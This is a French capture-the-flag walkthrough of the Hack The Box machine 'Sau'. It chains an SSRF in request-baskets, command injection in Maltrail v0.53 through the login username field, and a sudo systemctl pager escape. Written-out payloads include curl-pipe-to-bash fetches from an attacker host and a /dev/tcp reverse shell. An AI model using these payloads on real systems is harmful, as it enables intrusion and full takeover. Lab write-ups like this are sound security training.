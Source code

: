 # Sau

	echo "10.10.11.224 sau.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.224 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 10.10.11.224 -oN nmap.txt
	feroxbuster --silent -u http://10.10.11.224:55555
	
Scans classiques.

	PORT STATE SERVICE VERSION  
	22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)  
	80/tcp filtered http  
	8338/tcp filtered unknown  
	55555/tcp open unknown

Impossible d'accéder au site du port 80 mais le site du port 55555 est ouvert et contient un genre d'API qui permet de créer des baskets pour recueillir des requêtes HTTP. Cela me fait immédiatement penser au fait de pouvoir faire pointer cette fonctionnalité sur un serveur que je contrôle.

Une SSRF a déjà été répertoriée et cela facilite grandement la phase de reconnaissance :
- https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3
- https://notes.sjtu.edu.cn/s/MUUhEymt7# 

En reprenant le payload de l'article, cela donne : 

	curl -X POST "http://sau.htb:55555/api/baskets/aaaaa" -d '{"forward_url": "http://127.0.0.1:80","proxy_response": false,"insecure_tls": true,"expand_path": true,"capacity": 250}' -H 'Content-Type: application/json'


Ensuite, en se connectant graphiquement sur l'URL http://sau.htb:55555/aaaaa on peut utiliser le token obtenu dans la réponse à notre requête POST et accéder au paramétrage du basket ainsi qu'aux requêtes faites dessus.

En allant sur http://sau.htb:55555/aaaaa on a bien une requête qui apparaît mais on a juste une page blanche. J'ai essayé de cocher et décocher les quelques cases du paramétrage du basket et j'ai fini par réussir à avoir le site du port 80 que je visais en activant le paramètre "proxy_response"

Payload équivalent en ligne de commande pour directement avoir un basket malicieux fonctionnel : 

	curl -X POST "http://sau.htb:55555/api/baskets/aaaaa2" -d '{"forward_url": "http://127.0.0.1:80","proxy_response": true,"insecure_tls": true,"expand_path": true,"capacity": 250}' -H 'Content-Type: application/json'

J'arrive donc sur le site du port 80. Il y a juste une interface précaire avec quelques liens redirigeant vers un Github, mais je vois "Powered by Maltrail (v0.53)" en bas à gauche. Par chance, Maltrail est vulnérable aux injections de commande avant la v0.54 et il existe des articles avec des PoC : https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/ 

	echo "sh -i >& /dev/tcp/10.10.16.57/443 0>&1" > shell
	sudo cp shell /var/www/html/
	sudo tail /var/log/apache2/access.log -f
	curl http://sau.htb:55555/aaaaa2/login --data 'username=; `curl http://10.10.16.57/test.txt`'
	curl http://sau.htb:55555/aaaaa2/login --data  'username=; `curl http://10.10.16.57/shell | bash`'

Après pas mal de tentatives, j'ai finalement réussi à avoir le shell. Il faut noter que ce dernier payload avec le téléchargement puis "| bash" est beaucoup plus efficace. Et cela évite de s'embêter à devoir spécifier un chemin puis modifier manuellement les droits du fichier pour pouvoir l'exécuter.

	...
	rlwrap nc -nvlp 443
	...
	whoami
	cat ~/user.txt
	
### Élévation de privilèges : 

	cd /tmp
	wget http://10.10.16.57/linpeas.sh
	chmod u+x linpeas.sh
	/tmp/linpeas.sh > r.txt
	less -R r.txt

Je remarque une ligne surlignée dans le rapport : 

> User puma may run the following commands on sau:  
  > (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

Voir : https://gtfobins.github.io/gtfobins/systemctl/#sudo 
	
	python3 -c 'import pty ; pty.spawn("/bin/bash")'
	sudo /usr/bin/systemctl status trail.service
	...
	!/bin/bash
	whoami
	cat /root/root.txt


